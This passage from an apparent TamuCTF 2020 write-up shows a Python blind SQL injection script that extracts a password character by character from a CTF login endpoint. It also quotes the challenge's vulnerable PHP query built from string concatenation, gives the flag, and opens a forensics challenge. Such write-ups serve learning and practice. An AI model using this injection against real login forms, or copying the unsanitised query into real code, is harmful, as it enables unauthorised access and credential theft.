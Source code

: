 ```python
        print("[*] Trying {}{}".format(str(result), char))
        data = {
          'username': "admin",
          'password': "' or (SELECT MID(password,{},1) FROM mysql.user LIMIT 3,1)='{}' # ".format(i, char)
        }
        response = requests.post('http://passwordextraction.tamuctf.com/login.php', headers=headers, data=data, verify=False)
        resp = str(response.content)
        if "Invalid login info" not in resp:
            result = result + char
            print("[*] Found char {}".format(char))
            print("[*] Current: {}".format(result))
            found = True
            break

    if not found:
        print("[X] Couldn't find char at position {}".format(i))
        print("[*] Current: {}".format(result))
        exit(1)
```

Go take a coffe and wait for your flag ;)

PS: Strangely our exploit worked even if logically it should have failed as from seeing the docker configuration after the CTF ended we saw that the flag was in a custom table *db.accounts* and not in *mysql.user*. Seeing *login.php* also gave us no clue as it uses :

```php
$sql = "SELECT * FROM accounts WHERE username='$login_user' AND password='$login_pass'";
```

![passmystery](/assets/img/TamuCTF_2020/passextraction_3.gif)

🏁 __gigem{h0peYouScr1ptedTh1s}__{:.spoiler}

# Misc

## alCapone

> [...] he got the disk image of the computer [...] Can you help Ness out and find any information to take down the mob boss?
> (hint: [...] he deleted all important data [...])
